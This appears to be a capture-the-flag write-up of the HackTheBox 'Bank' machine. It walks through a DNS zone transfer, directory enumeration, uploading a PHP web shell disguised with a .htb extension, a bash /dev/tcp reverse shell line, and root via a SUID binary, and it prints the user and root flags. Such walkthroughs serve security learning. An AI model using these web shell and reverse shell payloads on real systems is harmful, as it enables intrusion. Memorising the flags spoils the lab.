










## Summary
Bank is a Linux machine that demonstrates DNS zone transfer vulnerabilities, PHP file upload exploitation, and SUID privilege escalation. The attack begins with discovering an open DNS server vulnerable to zone transfer, revealing the `bank.htb` domain. Through directory enumeration, we find a support portal with file upload functionality. By exploiting the application's handling of `.htb` files as PHP, we upload a web shell and gain initial access. Finally, we discover a SUID binary that provides immediate root access, allowing complete system compromise.

## Recon

### Initial Enumeration
We begin by scanning the target machine to identify open ports:

```shell
nmap -sC -sV -p- -v 10.129.29.200 --min-rate 5000
```

**Key Findings:**
- Port 22: SSH (OpenSSH 6.6.1p1)
- Port 53: DNS (ISC BIND 9.9.5-3ubuntu0.14)
- Port 80: HTTP (Apache 2.4.7)

**Critical Discovery:** The DNS service (port 53) is open, which could be vulnerable to zone transfer attacks if misconfigured.

### DNS Zone Transfer Attack
With port 53 open, we attempt a DNS zone transfer attack:

```shell
dig axfr @10.129.29.200 bank.htb
```



**Zone Transfer Success:** The attack reveals the `bank.htb` domain and associated DNS records, confirming the target's internal domain structure.

### Web Directory Enumeration
We enumerate directories on the discovered domain:

```shell
dirsearch -u http://bank.htb/
```



**Key Findings:**
- `/support.php` - Returns 302 redirect
- `/uploads/` - Directory accessible
- `/login.php` - Login portal

## Shell as www-data

### Bypassing Redirect
The `support.php` page redirects to `login.php`, but we can bypass this using curl:

```shell
curl http://bank.htb/support.php
```



We save the page for offline analysis:

```shell
curl http://bank.htb/support.php -o output
firefox output
```

### File Upload Discovery
Analyzing the saved page reveals a file upload form with an important comment:

```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```



**Exploitation Opportunity:** The application processes `.htb` files as PHP, allowing us to upload a web shell.

### Uploading Web Shell
We create a PHP web shell in a `.htb` file:

```php
<?php system($_GET['cmd']); ?>
```

We upload the shell using curl:

```bash
curl -X POST http://bank.htb/support.php \
  -F "title=Test" \
  -F "message=Test message" \
  -F "fileToUpload=@shell.htb" \
  -F "submitadd=Submit"
```



### Gaining RCE
The uploaded file is accessible in the `/uploads` directory. We test command execution:

```
http://bank.htb/uploads/shell.htb?cmd=id
```



**RCE Confirmed:** We can execute commands via the web shell.

We use URL-encoded bash reverse shell to gain access:

```shell
# URL-encoded: bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```



### User Flag
We locate the user flag in the home directory:



**User Flag:** `a43f68fa05e293666e8f36adb67c9d27`

## Shell as root

### SUID Enumeration
We search for SUID binaries for privilege escalation:

```shell
find / -perm -u=s -type f 2>/dev/null
```



**Critical Discovery:** `/var/htb/bin/emergency` - Custom SUID binary.

### Privilege Escalation
Executing the SUID binary grants immediate root access and we retrieved the final flag:

```shell
/var/htb/bin/emergency
```



**Root Flag:** `8bad23ea8c235f10f33782deb72161e0`